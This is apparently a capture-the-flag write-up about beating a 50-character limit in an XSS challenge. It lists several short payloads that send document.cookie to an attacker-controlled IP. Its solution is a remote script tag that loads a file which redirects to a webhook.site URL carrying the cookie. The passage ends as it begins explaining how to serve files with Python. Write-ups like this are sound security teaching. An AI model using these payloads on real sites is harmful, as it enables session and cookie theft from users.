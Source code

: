 ##### What I Tried During the Competition
- First of all, I tried several times to exploit [unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html), with a payload like [`<script src=//ﬀﬀ.pw>`](https://jlajara.gitlab.io/XSS_20_characters), but it seemed useless to me because it wouldn't have allowed me to exfiltrate the cookie (which is absolutely not true, I'll come back to this later) since I wouldn't have been able to append the contents of `document.cookie`, as the use of `src` alone wouldn't have allowed me to execute JavaScript code;
  
- I tried using `onerror` like this: `<img src/onerror=this.src='https://[IP]/'+document.cookie>`, but it still went beyond the allowed 50 characters;
  
- I found a way to not specify the protocol, resulting in `<img src/onerror=this.src='//[IP]/'+document.cookie>`. Still way too long.
  
- I tried changing the tag, first with the script tag `<script>location='//[IP]/'+document.cookie`, where `location` is a shortcut to access `window location`, but I realized that the payload wouldn't work unless I closed the tag.
  
- Again, this time with `<svg onload=location='//[IP]/'+document.cookie>`, but with the IP, I would have still exceeded the character limit by a few.

After trying and retrying, convincing myself more and more that I wasn't using the right approach, and scrutinizing the challenge files over and over again, including the templates that I considered completely safe, my eyes fell on the commented Bootstrap CDN.

What is done with the CDN is to include JavaScript code present on an external server on the page that calls it. To do this, all you need is a reference to this server and a `script` tag. Eureka.

#### XSS RFI
I think I can call it a Remote File Inclusion?

In the end, the solution was to write your payload to any file. The payload can be as long as you want, the important thing is that the tag that includes the JavaScript code in it is less than 50 characters.

At this point, I created a file named `x.js` that would change the page's address to that of my server, like this:

```js
window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;
```

At this point, all it took was to send the bot a payload that made it search for `<script src='//[IP]:[PORT]/'></script>`, so that it included the file from my server, executed it, and sent me the flag by changing the page's address from that of the challenge to that of my webhook, including the cookie parameters related to the challenge site as query parameters.

#### How to expose your server to the world

To expose your files to the rest of the internet, you don't need to physically own a server. Your PC can serve this purpose without much trouble. All you need is Python to do what I did during the competition, so I believe any operating system that supports Python also allows you to expose a server as I'm about to show:

Firstly, you need to get your local IP, which on Linux you can obtain by running the command `ifconfig`:

![Example of finding local IP with ifconfig](./media/img/ifconfig.png)

